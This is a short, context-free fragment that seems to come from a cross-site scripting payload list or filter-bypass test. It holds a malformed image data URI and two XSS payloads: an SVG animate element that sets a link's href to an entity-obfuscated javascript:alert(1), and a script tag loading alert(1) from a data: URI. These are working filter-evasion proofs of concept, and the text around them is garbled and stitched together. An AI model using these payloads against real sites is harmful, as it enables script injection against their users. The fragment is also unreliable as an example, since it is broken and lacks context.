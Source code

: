 <svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
  
  <script src="data:,alert(1)%250A-->
